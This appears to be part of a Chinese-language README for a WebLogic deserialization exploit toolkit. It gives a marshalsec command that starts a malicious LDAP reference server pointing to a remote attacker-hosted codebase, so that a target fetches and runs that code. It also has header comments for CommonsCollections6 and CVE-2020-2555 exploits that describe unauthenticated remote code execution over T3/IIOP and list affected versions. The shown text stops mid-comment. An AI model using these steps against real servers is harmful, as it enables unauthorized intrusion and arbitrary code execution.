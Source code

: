 1. 启动 LDAP 服务

```
java -cp marshalsec-0.0.3-SNAPSHOT-all.jar marshalsec.jndi.LDAPRefServer http://ip:port/#PocServerClusterMasterRemote 1099
```

2. 配置 LDAP 地址：

![](./images/1.png)

#### CommonsCollections6

```
/**
 * Title: CommonsCollections6
 * Desc:
 * <p>
 *     攻击者可以通过 T3、IIOP 协议远程访问 Weblogic Server 服务器上的远程接口，传入恶意数据，从而获取服务器 权限并在未授权情况下远程执行任意代码。
 *     漏洞影响版本:
 *     Oracle WebLogic Server 10.3.6.0.0
 *     Oracle WebLogic Server 12.1.3.0.0
 * </p>
 * Date:2020/4/5 3:48
 * @version 1.0.0
 */
```

#### CVE-2020-2555

```
/**
 * Title: CVE-2020-2555
 * Desc:
 * <p>
 *     CVE-2020-2555
 *     Oracle Fusion 中间件 Oracle Coherence 存在缺陷，攻击者可利用该漏洞在未经授权下通过构造 T3、IIOP 协议请求，获取 Weblogic 服务器权限，执行任意命令。
 *     该漏洞主要是因为 com.tangosol.util.filter.LimitFilter#toString 触发。
 *     漏洞影响版本:
 *     Oracle Coherence 3.7.1.17
 *     Oracle Coherence & Weblogic 12.1.3.0.0
 *     Oracle Coherence & Weblogic 12.2.1.3.0
 *     Oracle Coherence & Weblogic 12.2.1.4.0
```